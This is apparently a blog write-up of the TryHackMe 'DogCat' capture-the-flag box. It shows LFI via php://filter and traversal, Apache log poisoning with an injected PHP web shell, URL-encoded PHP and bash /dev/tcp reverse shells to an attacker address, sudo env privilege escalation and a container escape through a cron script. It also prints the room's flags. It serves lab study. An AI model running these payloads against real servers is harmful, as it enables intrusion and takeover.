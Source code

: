 ```yaml
---
title: TryHackMe - DogCat
description: My writeup on DogCat box.
categories:
 - tryhackme
tags: tryhackme LFI php logpoisoning sudo env docker
---
```


![](https://i.imgur.com/otcW2ZH.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **DogCat**  |
| Difficulty :  | **Medium**             |
| Play :    | [DogCat](https://tryhackme.com/room/dogcat){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This was an awesome box, with lot of LFI, php analysis etc i'll not say much, let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.157.103
$ nmap -sC -sV -oN nmap/dogcat.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 22:20 EET
Nmap scan report for 10.10.157.103 (10.10.157.103)
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```

Once we visit the website, we can see 2 buttons `A dog` & `A cat`.

![](https://i.imgur.com/DuBz9Wy.png)

We click a random one and we can see the URL goes like that `?view=dog`, that's probably LFI. LFI (Local File Inclusion) allow us to read files on the victim machine. The most common way to test that is by using the `/etc/passwd` file. Let's try it.

`http://$ip/?view=/etc/passwd` -> This gives an error `Sorry, only dogs or cats are allowed.` Let's try to add dog or cat in the URL.

`http://$ip/?view=dog/etc/passwd` -> This gives an error `Warning: include(dog/etc/passwd.php)` We can see it adds `.php` in all files, we can't read `/etc/passwd` but we can read the `index.php` source code! When we have LFI we can’t read php files because they get executed by the webserver. So we will do a trick to bypass that using base64.

Also here we have to apply a directory traversal attack `../`

```
$ curl -s "http://$ip/?view=php://filter/convert.base64-encode/resource=dog../../index"
PCFET0NUWVBF..data...go8L2h0bWw+Cg==
```

After we decode it we have the source code:

```php
function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
      }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
```

Now we have to do source code analysis. The most important thing in the source code is this variable:

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

We have a `ternary operator`, is an alternative method for using if-else statements. The syntax goes like that:

`(Condition) ? (Statement1) : (Statement2);`

We have the `$_GET`, is a PHP super global variable for collecting form data. For example `$_GET['pwn']` in URL will be like that `?pwn=`

So it translates to `ext` parameter should be equal to the `ext` GET parameter, else will it use `.php`

So we just have to add `&ext` to URL to read files.

```
$ curl -s "http://$ip/?view=dog../../../../../etc/passwd&ext"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Shell as www-data

Now we need to turn LFI into RCE. We will do apache log poisoning but to do that we need to be able to read log files. Let's try to load apache `access.log` file. `/var/log/apache2/access.log`

![](https://i.imgur.com/CnTRnmL.png)

Perfect, now let's fire up burp. Capture the request and inject this php code inside user-agent `<?php system($_GET['pwn']); ?>` also add to URL the parameter `&pwn=whoami`

![](https://i.imgur.com/1u7LGtU.png)

We have RCE!

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami" | grep "www-data"
10.9.234.105 - - [30/Dec/2020:21:23:34 +0000] "GET /?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami HTTP/1.1" 200 1991 "-" "Mozilla/5.0 www-data
```

Now we can simply send our reverse shell (remember to URL encode!)

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=php%20-r%20%27%24sock%3Dfsockopen%28%22<tun0 ip>%22%2C<port>%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27"
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's search for the flags:

```
$ find / -name "flag*" 2>/dev/null
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
```

Flag 1: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

Flag 2: `THM{LF1_t0_RC3_aec3fb}`

## Shell as root

Now privesc to root is simply, let's just check `sudo -l`:

```
$ sudo -l
Matching Defaults entries for www-data on bf18790496b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on bf18790496b8:
    (root) NOPASSWD: /usr/bin/env
```

We can run `env` as root, easy to exploit.

```
$ sudo env /bin/bash
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 3: `THM{D1ff3r3nt_3nv1ronments_874112}`

Hm.. we miss 1 flag tho. If we check the system root directory, we can see that we're inside docker container.

```
root@bf18790496b8:/# ls -la
total 80
drwxr-xr-x   1 root root 4096 Dec 30 20:19 .
drwxr-xr-x   1 root root 4096 Dec 30 20:19 ..
-rwxr-xr-x   1 root root    0 Dec 30 20:19 .dockerenv
...data...
```

We can also check that by the container id in the hostname.

```
root@bf18790496b8:/# hostname
bf18790496b8
```

Checking around the system i found under `/opt/backups` a `backup.sh` file, seems like is running in the background. Let's add a reverse shell in.

```
root@bf18790496b8:/opt/backups# echo "bash -c 'bash -i >& /dev/tcp/<tun0 ip>/6666 0>&1'" > backup.sh
```

```
$ nc -lvp 6666
listening on [any] 6666 ...

root@dogcat:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 4: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
